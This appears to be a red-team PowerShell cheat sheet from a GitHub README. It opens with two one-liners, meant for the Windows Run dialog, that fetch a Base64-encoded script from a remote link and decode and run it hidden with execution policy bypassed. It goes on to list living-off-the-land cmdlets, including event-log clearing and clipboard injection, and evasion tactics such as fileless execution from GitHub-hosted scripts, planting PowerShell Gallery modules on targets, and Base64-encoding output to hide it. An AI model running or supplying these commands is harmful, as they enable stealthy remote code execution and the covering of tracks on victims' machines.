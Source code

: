 # Red Team PowerShell

## Execute fileless Base64 encoded script from Run Dialog:

```powershell
powershell -NoP -W H -Ep Bypass &([scriptblock]::Create([Text.Encoding]::UTF8.GetString([Convert]::FromBase64String((irm LINK)))))
```

## Download and execute Base64 encoded script from Run Dialog:

```powershell
powershell -NoP -W H -Ep Bypass irm LINK -O $env:USERPROFILE\e.txt;certutil -f -decode $env:USERPROFILE\e.txt $env:USERPROFILE\d.ps1;iex $env:USERPROFILE\d.ps1
```

------------------------------

# Living of the Land Cmdlets:

| Cmdlet                  | Description                                                                                          |
|-------------------------|------------------------------------------------------------------------------------------------------|
| Get-StartApps           | Used to retrieve a list of Start menu apps and tiles for the current user on a Windows operating system. |
| Set-Clipboard           | Used to set clipboard content. Essentially clipboard injection.                                       |
| Get-Clipboard           | Retrieve clipboard content.                                                                          |
| Get-LocalUser           | Return all local users on the system.                                                                |
| Get-NetFirewallProfile  | Gets properties for a firewall profile.                                                              |
| Get-NetFirewallRule     | Gets properties for a firewall rule.                                                                 |
| Get-ComputerInfo        | Retrieves all system and operating system properties from the computer                               |
| Get-Service             | Retrieves a list of all services on the computer                                                     |
| Get-EventLog            | Retrieves events and event logs from local and remote computers (only available in Windows PowerShell 5.1) |
| Get-Process             | Retrieves a list of all active processes on a local or remote computer                               |
| Clear-EventLog          | Deletes all of the entries from the specified event logs on the local computer or on remote computers |
| Clear-RecycleBin        | Deletes the content of a computer's recycle bin                                                       |

# Attack Vectors, Evasion, and More:

### PowerShell Gallery Modules

- Upload PowerShell Gallery module and import it onto targets systems. This method allows widge range use as most Windows computers has PowerShell enabled. This method also exploits trusted Windows applications, making it harder to detect. This method could also potentially assist in elevated privileges. However, when a module is imported from PowerShell Gallery, it touches the hard drive and is typically saved to `"C:\Users\USER\Documents\PowerShell\Modules\"`.

### Fileless PowerShell Script Execution

- You can upload a file to a remote server and fetch the raw contents of the script and save it as a PowerShell variable and then execute that variable. This allows the execution of PowerShell scripts without the script ever touching the hard drive. The script is saved as a variable, which is only stored in memory for that current session. Using GitHub to host the PowerShell script is a common tactic.

### Decode Base64 using PowerShell

- You can decode Base64 directly in PowerShell. Using `Convert.FromBase64String()` you can decode the content from Base64 to binary. You would then use `[Text.Encoding]::UTF8.GetString()` to convert the binary data to a regular string.

For example:

```powershell
# convert base64 string to binary
$binary = [System.Convert]::FromBase64String("aGVsbG8=")

# convert binary data to string
$string = [System.Text.Encoding]::UTF8.GetString($binary)

# print the string
$string

# you can also convert strings to base64
$base64 = [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("Hello"))
```

- You can also decode Base64 using `certutil`. `Certutil` is a command-line utility in Windows operating systems primarily designed for managing certificates. You can decode Base64 by simply running `certutil -f -decode path/to/file`.

- Just as you can run commands from Base64 in PowerShell, you can also convert command output to Base64 to conceal it.

For example, if you wanted to convert the output of the ipconfig command to Base64:
```powershell
$output = [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes((ipconfig)))
```
